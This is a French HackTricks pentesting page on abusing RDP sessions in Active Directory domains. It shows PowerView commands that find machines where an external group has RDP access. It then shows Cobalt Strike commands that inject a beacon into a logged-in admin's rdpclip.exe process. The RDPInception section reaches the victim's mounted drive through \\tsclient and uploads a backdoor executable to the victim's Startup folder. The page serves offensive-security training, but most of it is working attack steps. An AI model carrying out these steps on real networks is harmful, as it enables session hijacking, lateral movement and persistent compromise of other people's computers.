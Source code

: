 # Abus des sessions RDP

{{#include ../../banners/hacktricks-training.md}}

## Injection de processus RDP

Si le **groupe externe** a un **accès RDP** à un **ordinateur** dans le domaine actuel, un **attaquant** pourrait **compromettre cet ordinateur et l'attendre**.

Une fois que cet utilisateur a accédé via RDP, l'**attaquant peut pivoter vers la session de cet utilisateur** et abuser de ses permissions dans le domaine externe.
```powershell
# Supposing the group "External Users" has RDP access in the current domain
## lets find where they could access
## The easiest way would be with bloodhound, but you could also run:
Get-DomainGPOUserLocalGroupMapping -Identity "External Users" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
#or
Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName

# Then, compromise the listed machines, and wait til someone from the external domain logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
...
4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local
## From that beacon you can just run powerview modules interacting with the external domain as that user
```
Vérifiez **d'autres façons de voler des sessions avec d'autres outils** [**sur cette page.**](../../network-services-pentesting/pentesting-rdp.md#session-stealing)

## RDPInception

Si un utilisateur accède via **RDP à une machine** où un **attaquant** l'attend, l'attaquant pourra **injecter un beacon dans la session RDP de l'utilisateur** et si la **victime a monté son disque** en accédant via RDP, l'**attaquant pourrait y accéder**.

Dans ce cas, vous pourriez simplement **compromettre** le **ordinateur original des victimes** en écrivant une **porte dérobée** dans le **dossier de démarrage**.
```powershell
# Wait til someone logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
...
4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local

# There's a UNC path called tsclient which has a mount point for every drive that is being shared over RDP.
## \\tsclient\c is the C: drive on the origin machine of the RDP session
beacon> ls \\tsclient\c

Size     Type    Last Modified         Name
----     ----    -------------         ----
dir     02/10/2021 04:11:30   $Recycle.Bin
dir     02/10/2021 03:23:44   Boot
dir     02/20/2021 10:15:23   Config.Msi
dir     10/18/2016 01:59:39   Documents and Settings
[...]

# Upload backdoor to startup folder
beacon> cd \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
```
{{#include ../../banners/hacktricks-training.md}}
